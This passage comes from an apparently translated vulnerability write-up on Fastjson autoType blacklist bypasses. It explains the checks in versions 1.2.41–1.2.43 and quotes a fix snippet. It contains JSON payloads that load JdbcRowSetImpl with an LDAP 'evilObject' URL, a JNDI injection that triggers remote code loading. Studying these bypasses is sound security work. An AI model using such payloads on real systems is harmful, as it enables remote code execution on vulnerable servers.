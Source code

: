 ![](./images/32.png)

Therefore, the idea of ​​exploitation is: `autoType` needs to be turned on and blacklisted bypass using `[`, `L`, `;` characters.

### Payload

```java
{
	"@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
	"dataSourceName":"ldap://127.0.0.1:8888/evilObject",
	"autoCommit":true
}
```

## Fastjson 1.2.42
### analyze

In the version `Fastjson 1.2.42`, `fastjson` continues to continue the detection mode of black and white lists, but in order to prevent security researchers from conducting reverse research based on classes in blacklists, the blacklist class was modified from whitelists to using `HASH` for comparison, and used to attack unupdated historical versions. At the same time, the author tried to fix the problem of using class descriptors to bypass blacklist verification that had been present in previous versions.

`com.alibaba.fastjson.parser.ParserConfig` converts the original plaintext blacklist to a `Hash` blacklist. And adds judgment in `checkAutoType`. If the first character of the class is `L` and ends with `;`, then `substring` is removed. However, it is recursively processed at the last time, so just double-write the descriptor to bypass it.

![denyHashCodes](./images/33.png)

### Payload

```java
{
	"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
	"dataSourceName":"ldap://127.0.0.1:8888/evilObject",
	"autoCommit":true
}
```

## Fastjson 1.2.43
### analyze
This version mainly fixes the problem of double write bypass in the previous version.

```java
if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
    if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(1)) * 1099511628211L == 655656408941810501L) {
        throw new JSONException("autoType is not support. " + typeName);
    }

    className = className.substring(1, className.length() - 1);
}
```
